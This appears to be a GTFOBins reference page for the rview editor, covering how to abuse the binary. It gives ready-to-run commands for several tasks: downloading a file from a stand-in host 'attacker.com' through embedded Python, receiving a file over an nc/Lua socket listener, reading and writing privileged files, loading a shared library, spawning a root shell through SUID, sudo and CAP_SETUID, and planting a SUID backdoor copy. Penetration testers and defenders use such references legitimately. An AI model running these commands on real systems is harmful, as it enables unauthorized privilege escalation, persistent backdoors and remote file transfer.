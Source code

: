 # GTFOBin: rview

## File download

It can download remote files.

This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
rview -c ':py import vim,sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r
else: import urllib as r
r.urlretrieve(e["URL"], e["LFILE"])
vim.command(":q!")'
```

Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.

```
export LPORT=12345
export LFILE=file_to_save
rview -c ':lua local k=require("socket");
  local s=assert(k.bind("*",os.getenv("LPORT")));
  local c=s:accept();
  local d,x=c:receive("*a");
  c:close();
  local f=io.open(os.getenv("LFILE"), "wb");
  f:write(d);
  io.close(f);'
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
rview file_to_write
iDATA
^[
w!
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
rview file_to_read
```

## Library load

It loads shared libraries that may be used to run code in the binary execution context.

This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.

```
rview -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo install -m =xs $(which rview) .

./rview -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.

```
sudo rview -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

This requires that `rview` is compiled with Lua support.

```
sudo rview -c ':lua os.execute("reset; exec sh")'
```

## Capabilities

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.

```
cp $(which rview) .
sudo setcap cap_setuid+ep rview

./rview -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This requires that `rview` is compiled with Lua support.

```
sudo install -m =xs $(which rview) .

./rview -c ':lua os.execute("reset; exec sh")'
```